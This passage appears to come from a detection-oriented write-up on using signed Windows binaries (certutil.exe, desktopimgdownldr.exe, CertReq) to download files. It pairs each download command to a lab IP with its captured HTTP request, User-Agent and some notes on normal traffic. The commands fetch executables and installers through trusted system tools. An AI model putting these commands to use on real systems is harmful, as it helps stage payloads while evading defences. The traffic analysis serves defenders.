 ***Note***: Small files only

*Due to something going on with the internals of CertReq.exe only small (not sure on specific size limitations) files appear to work - otherwise you get the below error!*

### 3. Certutil.exe

```powershell
certutil.exe -urlcache -split -f http://192.168.220.125/white_process/test.msi
```

[***pcap***](/assets/pcap/Certutil.pcap)

```http
GET /white_process/test.msi HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
Host: 192.168.220.125
```

***Note*** 也有人遇到UA为 `CertUtil URL Agent` 的情况



目前此类流量中的正常使用情况有:

1. 通过 1.1.1.3/ac_portal/proxy.html 下载windows更新
2. 通过内网windows升级服务器, 下载 windowsupdate.com 的升级补丁
3. 证书吊销列表 crl 文件下载
4. /disable/disable.htm 的指令



### 4. Desktopimgdownldr.exe

```powershell
desktopimgdownldr.exe /lockscreenurl:http://192.168.220.125/white_process/call_calc.exe /eventName:hello
```

[***pcap***](/assets/pcap/desktopimgdownldr.pcap)

```http
GET /white_process/call_calc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
If-Unmodified-Since: Wed, 25 Nov 2020 16:46:48 GMT
User-Agent: Microsoft BITS/7.8
Host: 192.168.220.125
```

***Note.1*** When used for its intended purpose, it downloads and saves images to the following default path:

```powershell
C:\windows\Personalization\LockScreenImage\LockScreenImage_%random%.jpg
```
